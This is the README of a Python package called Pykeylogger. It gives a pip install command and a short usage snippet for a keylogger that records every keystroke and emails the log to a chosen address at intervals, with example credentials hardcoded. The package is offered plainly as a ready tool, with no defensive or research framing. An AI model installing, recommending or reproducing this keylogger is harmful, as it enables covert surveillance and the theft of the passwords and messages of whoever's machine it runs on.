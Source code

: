 # A simple keylogger

#### This is a simple keylogger that is built using the libraries: pynput and stmplib, 
#### and some other built-in modules for sending emails.
#### It will record the key and send the log to you through email

## How to install it?

You can do:

"""
pip install Pykeylogger
"""

to install pykeylogger...

## How to use it?

code example:

"""
from Pykeylogger import keylogger


logger = keylogger.KeyLogger(interval=50, email="pykeylogger@pykeylogger.com", passwd="Pykeylogger123")
logger.run()
"""

simple!
interval = how long do you want to wait to send the log of the keys to you
email = the email you want to send to log to
passwd = password of the email



yeyeyeye! Thank you!